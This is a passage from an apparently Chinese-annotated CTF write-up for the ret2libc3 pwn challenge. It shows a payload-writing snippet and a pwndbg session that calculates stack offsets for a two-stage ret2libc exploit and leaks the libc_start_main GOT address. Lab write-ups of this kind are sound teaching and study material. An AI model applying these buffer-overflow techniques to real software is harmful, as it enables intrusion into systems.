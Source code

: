 ```python
with open("input", "wb") as f:
    f.write(payload) 
```

- gdb调试，使用保存在`input`文件中的第一个payload作为输入

```assembly
$ gdb ret2libc3 -q
pwndbg> b *0x0804868A   ; 断点下在了gets调用的地方
Breakpoint 1 at 0x804868a: file ret2libcGOT.c, line 27.
pwndbg> r < input
Starting program: /home/kali/CTF/pwn/ret2libc3 < input
No surprise anymore, system disappeard QQ.
Can you find it !?
Breakpoint 1, 0x0804868a in main () at ret2libcGOT.c:27
27      ret2libcGOT.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────
 EAX  0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c] ; 字符串s的地址
 EBX  0x0
 ECX  0x12
 EDX  0xffffffff
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0 ; 0xffffd3bc - 0xffffd428 = -108 # 计算第一次payload的偏移量
 ESP  0xffffd3a0 —▸ 0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c]
 EIP  0x804868a (main+114) —▸ 0xfffdb1e8 ◂— 0xfffdb1e8
──────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────
 ► 0x804868a <main+114>             call   gets@plt <gets@plt> ; 断点下在了gets调用的地方
        arg[0]: 0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c]
        arg[1]: 0x0
        arg[2]: 0x1
        arg[3]: 0x0
..................................................; 省略一大段无关紧要的输出
pwndbg> c ; 程序继续，将在第二次执行gets时断下
Continuing.  ;下面这一行就是前面payload的功能，输出 libc_start_main_got
@▒▒▒▒▒Ƅ       ; libc_start_main_got: 0xf7de8d40 @=0x40 b=0x62 #这个b是怎么回事就不知道了....也不确定是不是b
No surprise anymore, system disappeard QQ. ; 第二次执行 main
Can you find it !?
Breakpoint 1, 0x0804868a in main () at ret2libcGOT.c:27
27      in ret2libcGOT.c
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────
*EAX  0xffffd3cc ◂— 0x1 ; 上次断点时为 0xffffd3bc
 EBX  0x0
 ECX  0x12
 EDX  0xffffffff
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
*EBP  0xffffd430 ◂— 0x41414141 ('AAAA') ; 上次断点时为 0xffffd428 ; 0xffffd3cc - 0xffffd430 = -100 ; 第二次payload偏移量计算
*ESP  0xffffd3b0 —▸ 0xffffd3cc ◂— 0x1
 EIP  0x804868a (main+114) —▸ 0xfffdb1e8 ◂— 0x0
```

